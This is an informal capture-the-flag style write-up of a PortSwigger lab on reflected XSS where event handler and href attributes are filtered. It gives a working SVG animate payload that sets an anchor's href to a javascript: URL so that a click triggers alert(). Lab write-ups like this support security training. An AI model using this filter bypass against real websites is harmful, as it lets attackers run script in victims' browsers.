

>> Platform -> portswigger
>> Target -> Lab: Reflected XSS with event handlers and href attributes blocked

----
**Where is Vuln**: Reflected XSS in the search feature. Some HTML tags are whitelisted, but all event handler attributes (onclick, onmouseover, etc.) and anchor `href` attributes are being filtered/blocked.

**Goal**: Inject a vector — without using any event handler or `href` attribute — that triggers `alert()` when clicked. The vector needs to be labeled with the word "Click" so the simulated user clicks it.

----


### Steps:
1. Open the lab
2. some tags and event handlers are blocked
3. now i try svd with ancher tag to click button
```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```
4. after the execute payload
5. lab solved 
